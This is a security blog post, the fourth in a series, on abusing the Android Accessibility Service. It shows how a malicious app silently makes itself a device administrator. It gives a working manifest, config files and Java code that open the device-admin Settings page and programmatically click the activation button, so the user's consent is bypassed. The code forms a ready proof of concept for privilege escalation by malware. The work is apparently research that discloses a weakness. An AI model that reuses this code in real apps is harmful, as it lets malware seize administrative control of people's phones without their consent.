 ```yaml
---
layout: posts
title:  Attacking Android Accessibility Service (AAS) - Part IV
date:   2020-05-05
categories: android
---
```


`~$ cat How_an_Android_app_could_escalate_its_privileges_Part4.txt`

This last part about Android Accessibility Service presents the simplest application, and surely the most powerful one of the four. The goal is here to make the app
an administrator of the device.

_By "administrator", I don't mean "root"_

![admin](/assets/res/android/admin.png)

The principle remains the same: the malicious app opens the Settings at a specific page, and forces the click on a widget. However, there is no need here to browse through
the settings, and it makes the attack really fast, and even easier!

### Configuration

As the holy documentation says:

>To use the Device Administration API, the app's manifest must include the following:
>* A subclass of DeviceAdminReceiver that includes the following:
>	* The BIND_DEVICE_ADMIN permission.
>	* The ability to respond to the ACTION_DEVICE_ADMIN_ENABLED intent, expressed in the manifest as an intent filter.
>* A declaration of security policies used in metadata.

I created then a class named `MyDeviceAdminReceiver` extending `DeviceAdminReceiver`, and registered the `<receiver>` in the Manifest. And as usual, there is also the custom
accessibility service:

 ```xml
<?xml version="1.0" encoding="utf-8"?>
	<manifest xmlns:android="http://schemas.android.com/apk/res/android" package="xyz.noname.spyapp">
		<application
		...<snipped/>...
		<service android:name=".services.CustomAccessibilityService"
			android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
			<intent-filter>
				<action android:name="android.accessibilityservice.AccessibilityService"/>
			</intent-filter>
			<meta-data android:name="android.accessibilityservice"
				android:resource="@xml/accessibility_config"/>
		</service>
		<receiver android:name=".services.MyDeviceAdminReceiver"
			android:permission="android.permission.BIND_DEVICE_ADMIN">
			<meta-data android:name="android.app.device_admin"
				android:resource="@xml/admin_config"/>
			<intent-filter>
				<action android:name="android.app.action.DEVICE_ADMIN_ENABLED"/>
			</intent-filter>
		</receiver>
	</application>
</manifest>
 ```

For the file `accessibility_config`, nothing new:

 ```xml
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
	android:packageNames="com.android.settings, xyz.noname.spyapp"
	android:accessibilityEventTypes="typeWindowContentChanged"
	android:accessibilityFeedbackType="feedbackAllMask"
	android:notificationTimeout="100"
	android:canRetrieveWindowContent="true"
	android:accessibilityFlags="flagReportViewIds"/>
 ```

We still listening for the `typeWindowContentChanged` events, on Settings and the malicious app. As usual, I set `canRetrieveWindowContent` to `true`, and
added `flagReportViewIds` in order to make it easier.

In the `admin_config`, I only wrote:

 ```xml
<?xml version="1.0" encoding="utf-8"?>
<device-admin xmlns:android="http://schemas.android.com/apk/res/android">
	<uses-policies>
		<!--xxx-->
	</uses-policies>
</device-admin>
 ```

### Main activity and Receiver

The `DeviceAdminReceiver` contains nothing except `onReceive`, where I only print the `action`. However, it could be very useful for an attacker, to launch to
attack as soon as the admin permission id granted:

 ```java
public class MyDeviceAdminReceiver extends DeviceAdminReceiver {

	@Override
	public void onReceive(Context context, Intent intent) {
		Log.e("action", intent.getAction());
		super.onReceive(context, intent);
	}
}
 ```

A bunch of callback routines can be used to react depending on the action: `onEnabled`, `onDisable`, `onDisableRequested`, `onLockTaskModeEntering` etc.

In `MainActivity` it's also really simple: we check if the app is already an admin, and if it's not the case and if the Accessibility Service in On, then
the Settings are open at the right page:

![admin_perm](/assets/res/android/admin_perm.png)

 ```java
	@Override
	protected void onCreate(Bundle savedInstanceState) {
		super.onCreate(savedInstanceState);
		ComponentName componentName= new ComponentName(this, MyDeviceAdminReceiver.class);
		DevicePolicyManager dmp = (DevicePolicyManager) getSystemService(DEVICE_POLICY_SERVICE);
		if (dmp != null && !dmp.isAdminActive(componentName) && Util.isAccessibilityServiceOn(this)) {
			Intent intent = new Intent(DevicePolicyManager.ACTION_ADD_DEVICE_ADMIN);
			intent.putExtra(DevicePolicyManager.EXTRA_DEVICE_ADMIN, componentName);
			startActivityForResult(intent, 1);
		}
		setContentView(R.layout.activity_main);
	}
 ```

It's normally possible to put an extra string explaining why this status is requested by the app, but it's obviously not the goal in this case.

### The custom Accessibility Service

As the Settings opens at this specifig page, the only thing we have to do is to click on "Activate this device admin app", and to quit. First thing I did was
to get the id of this widget:

> ```java
>private static final String ACTIVATE_ADMIN = "com.android.settings:id/action_button";
> ```

and then, I used a boolean `activate` which indicates if the user has landed here because of the malicious app or not. Not need here to recursively scan the page.
I used the routine `findAccessibilityNodeInfosByViewId` which returns a list of widgets having the given id (I then assume that it's the first one).

Then, a click is performed on this widget or on its parent.


```java
private boolean activate;

@Override
public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
	if (getApplication().getPackageName().equals(accessibilityEvent.getPackageName().toString())){
		this.activate = true;
	}
	else{
		if (!this.activate){
			AccessibilityNodeInfo info = accessibilityEvent.getSource();
			if (info != null){
				List<AccessibilityNodeInfo> list = info.findAccessibilityNodeInfosByViewId(ACTIVATE_ADMIN);
				if (list.size() > 0){
					AccessibilityNodeInfo node = list.get(0);
					if (node.isClickable()){
						this.activate = node.performAction(AccessibilityNodeInfo.ACTION_CLICK);
					}
					else{
						AccessibilityNodeInfo parent = node.getParent();
						while (parent != null && !parent.isClickable()){
							parent = parent.getParent();
						}
						if (parent != null){
							this.activate = parent.performAction(AccessibilityNodeInfo.ACTION_CLICK);
						}
					}
				}
			}
		}
	}
}
 ```

Since there are only 2 apps registered in the config file, a simple `if/else` is sufficient. As soon as the button is clicked, the `DeviceAdminReceiver.onReceive` is called
and the malicious code can be triggered.

[![video4_poc](/assets/res/android/video4.png)](https://youtu.be/2M2pIMuET00)
